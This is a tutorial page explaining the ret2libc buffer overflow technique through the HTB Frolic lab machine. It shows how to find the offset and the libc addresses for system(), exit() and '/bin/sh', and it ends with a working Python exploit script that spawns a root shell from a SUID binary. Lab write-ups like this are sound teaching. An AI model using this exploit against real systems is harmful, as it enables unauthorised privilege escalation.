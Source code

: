 # Ret2Libc

Ret2Libc is a type of buffer overflow that would basically bypass a non-executable stack. This attack does not require any shellcode at all, but rather some specific addresses and hopping throughout the program. Ret2libc **bypasses DEP security features**.

Compared to the OSCP buffer overflow, where we simply use `jmp esp` to go to the top of the stack and then execute shellcode, this would control the EIP to jump to the library loaded whent the binary runs.

## How it Works

When we run a binary that uses functions from a library, these libraries are **loaded into the program's virtual space**. For example, the standard C library shared object located at `/lib/i386-linux-gnu/libc-*.so` is loaded for Linux, and it's the `ntdll.dll` file loaded for Windows.&#x20;

To gain RCE, we would need to find the `system()` function, which lives in the `libc` library. The EIP that we gain control of woulud then be used to _jump_ to this function by overflowing it with its return address. After moving to this function, we would need to **execute shell commands passed to this function**. For most cases, the command for RCE is `/bin/sh`.&#x20;

Basically, we would force a program to call `system("/bin/sh")` through manipulation of the EIP. Here's a visual representation of how it works:

<figure><img src="../.gitbook/assets/image (89) (2).png" alt=""><figcaption></figcaption></figure>

In general:

1. EIP has been overflown to have the address of `system()` in `libc`.
2. Right after, the address of `exit()` is included, which also is within `libc`. The reason we need this is because once `system()` returns, the program jumps to `exit()`, which would allow for the vulnerable program to exit and drop us in our shell.
3. Then, a pointer with the address of `/bin/sh` is present, which is the argument we are passing to the `system()` command.

So we need to find 3 things for this attack:

1. Address of `system()`
2. Address of `exit()`
3. Address of `/bin/sh`.

All of which can be found within libc. All of this is done through analyzing the `libc` file that is within a program, and some prior enumeration as to which library is being loaded needs to be done. The locating of the offset stays the same, using `pattern_create.rb` and `pattern_offset.rb` in most cases.

## Example

This is an example of a ret2libc attack from HTB Frolic, which contains this exploit as part of its privilege escalation.

Firstly, we would find a binary named `rop` that is left behind for us, and it has the SUID binary set, meaning that when we run it, we are running it as the `root` user. We can download a copy back to our machine for further testing (either using netcat or base64 to do so).

<figure><img src="../.gitbook/assets/image (39) (3).png" alt=""><figcaption></figcaption></figure>

### Enumeration and Offset

First, we need to use `checksec` on the binary to see what we can and cannot do:

<figure><img src="../.gitbook/assets/image (25) (1) (1).png" alt=""><figcaption></figcaption></figure>

Breaking down the output, we notice that ASLR is disabled, RELRO is partial (meaning we have some space for writing code) and most importantly, NX is enabled. The stack is non executable, meaning that shellcode cannot be injected here.

Then, we can run the binary and see what it does. I used `ltrace` to enumerate what library calls and functions are being used.

<figure><img src="../.gitbook/assets/image (95) (1).png" alt=""><figcaption></figcaption></figure>

So first, we notice that the program takes **an unsanitised input from the user.** The 'Hello!' portion is user-supplied, and then it uses `strcpy`, which is a dangerous function vulnerable to BOF since it does not check for the length of input, and copes it to another place in memory.

So we now we know the vulnerable parameter is probably the `main()` function's `argv[1]` call. We can generate an offset using `pattern_create.rb` of length 100 first, and then run the program in `gdb` to see how it responds to our payload.

<figure><img src="../.gitbook/assets/image (27) (2) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can use `pattern_offset.rb` to find the offset.

<figure><img src="../.gitbook/assets/image (87) (1).png" alt=""><figcaption></figcaption></figure>

### Finding Addresses

Now, within the **Frolic machine**, we would need to find the libraries it has. It has to be the machine itself because we want the RCE to work there to give us a root shell. We can use `ldd` to find the **address of which the libc.so file is loaded**.

<figure><img src="../.gitbook/assets/image (1) (6).png" alt=""><figcaption></figcaption></figure>

So this binary loads the `libc.so.6` file in virtual memory. The base address is at `0xb7e19000`, and all other addresses we find are **offsets**, meaning we have to **add the addresses together** to find the specific address it is loaded at.

I first found the `/bin/sh` address using `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"`

<figure><img src="../.gitbook/assets/image (6) (6) (1).png" alt=""><figcaption></figcaption></figure>

The offset is `0x0015ba0b`, and when added to the base address found earlier, we would get `0xb7f74a0b`. So `/bin/sh` is there.

Then, we need to find the `system()` function. I did so using `objdump` .&#x20;

<figure><img src="../.gitbook/assets/image (13) (2) (2).png" alt=""><figcaption></figcaption></figure>

Adding the offset, we would get `0xb7e53da0`. Lastly, we need `exit()` , which is found using the same manner.

<figure><img src="../.gitbook/assets/image (28) (2).png" alt=""><figcaption></figcaption></figure>

`0xb7e479d0` is where `exit()` lives.&#x20;

### Exploit

Now that we have found all of this, we just need to put it together. Here's my final exploit script, using python `struct` to do so. Note that there are more automated ways of exploiting this, using `pwntools` or using online websites to find the addresses directly through finding the specific Linux version the machine is using or exact `libc` file being used.

Here's the final script:

```python
#!/usr/bin/python2

import struct  
# addresses from Frolic / Kali if testing locally
system_address = struct.pack("<I", 0xb7e53da0)
exit_address = struct.pack("<I", 0xb7e479d0)
string_address = struct.pack("<I", 0xb7f74a0b)

# fill the buffer with junk:
buffer = "A" * 52

# place the arguments for the call to system() on the stack, following the order defined by the x86 calling convention:
buffer += system_address
buffer += exit_address
buffer += string_address

# finally feed the program with the malicious payload
print buffer
```

Now, we just need to feed the output from this script into `rop`. This would spawn a root shell for us and we can finish the machine.

<figure><img src="../.gitbook/assets/image (4) (6).png" alt=""><figcaption></figcaption></figure>
